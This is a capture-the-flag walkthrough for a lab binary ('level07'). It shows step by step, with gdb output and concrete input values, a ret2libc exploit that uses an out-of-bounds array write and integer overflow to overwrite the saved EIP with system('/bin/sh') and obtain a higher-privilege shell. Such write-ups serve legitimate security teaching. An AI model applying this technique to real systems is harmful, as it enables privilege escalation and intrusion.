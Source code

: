 
# Level07 - Exploiting an Out-of-Bounds Array Access Vulnerability

## Objective

The goal of this challenge is to exploit an out-of-bounds array access vulnerability in the program to overwrite the instruction pointer (EIP) and execute a ret2libc attack.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level07
----------------------------------------------------
Welcome to wil's crappy number storage service!   
----------------------------------------------------
Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
Number: 42
Index: 0
*** ERROR! ***
This index is reserved for wil!
*** ERROR! ***
Failed to do store command
Input command: read
Index: 0
Number at data[0] is 0
Completed read command successfully
```

The program stores numbers in an array and allows reading from the array. However, there is no proper bounds checking on the indices, allowing us to access memory outside the array.

## Step 2: Exploiting Out-of-Bounds Access

By specifying indices beyond the array bounds, we can access arbitrary memory locations:

```bash
Input command: store
Number: 42
Index: 160
Completed store command successfully
Input command: read
Index: 160
Number at data[160] is 42
Completed read command successfully
```

### Negative Indices

Negative indices access memory locations before the start of the array:

```bash
Input command: store
Number: 42
Index: -2
Completed store command successfully
Input command: read
Index: -2
Number at data[4294967294] is 42
Completed read command successfully
```

### Finding the Array Address in Memory

To exploit this, we need the base address of the array in memory. Set a breakpoint at the start of the `read_number` function:

```bash
(gdb) b read_number
(gdb) r
```

Check the address of the array:

```bash
(gdb) x/x $ebp+0x8
0xffffd440: 0xffffd464
```

The array starts at `0xffffd464`. To find the index in the array where this address is stored:

```bash
0xffffd440 - 0xffffd464 = -36
-36 / 4 = -9
```

This calculation shows the array index `-9` holds the base address.

## Step 3: Finding EIP in the Array

Next, find the index of the EIP in the array:

1. Set a breakpoint in the main function and get EIP:

   ```bash
   (gdb) b *main+520
   (gdb) c
   ```

2. Check the saved EIP address:

   ```bash
   (gdb) i f
   eip at 0xffffd62c
   ```

3. Calculate the index of EIP in the array:

   ```bash
   0xffffd62c - 0xffffd464 = 456
   456 / 4 = 114
   ```

EIP is stored at index `114`, but this index is protected (index % 3 == 0). To bypass, use integer overflow:

```bash
1073741938 % 3 = 1
```

## Step 4: Overwriting EIP with `system()`

Overwrite EIP with the address of `system()`:

```bash
(gdb) info function system
0xf7e6aed0  system
```

Use index `1073741938` to write to index `114`.

## Step 5: Setting the Argument for `system()`

Set the argument `/bin/sh` at index `116`:

```bash
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
```

In decimal, the address is `4160264172`.

## Step 6: Executing the Exploit

Perform the exploit:

```bash
$ ./level07
Input command: store
Number: 4159090384
Index: 1073741938
Completed store command successfully
Input command: store
Number: 4160264172
Index: 116
Completed store command successfully
Input command: quit
$ whoami
level08
```

## Summary

- The program has an out-of-bounds vulnerability allowing access beyond the array limits.
- By calculating the correct indices, we can read and overwrite EIP with a `system()` address.
- Set the argument for `system()` as `/bin/sh`, achieving a shell with escalated privileges.

This approach highlights the impact of insufficient bounds checking in memory access.

